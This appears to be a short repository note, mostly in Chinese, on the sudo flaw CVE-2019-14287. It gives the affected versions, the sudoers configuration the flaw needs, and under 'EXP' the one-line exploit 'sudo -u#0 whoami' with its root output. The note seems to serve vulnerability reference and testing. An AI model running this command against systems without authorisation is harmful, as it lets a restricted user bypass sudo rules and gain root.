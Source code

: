 ### Info

[CVE-2019-14287 sudo Vulnerability Allows Bypass of User Restrictions](https://blog.aquasec.com/cve-2019-14287-sudo-linux-vulnerability)

#### 利用要求

<li>
sudo版本低於v1.8.28

</li>
<li>
/etc/sudoers 配置要求如下(要求一組特定權限,不一定完全是下面的樣子)

</li>
#### 示例

    <user> ALL=(ALL:!root) NOPASSWD: ALL

### EXP

    sudo -u#0 whoami
    root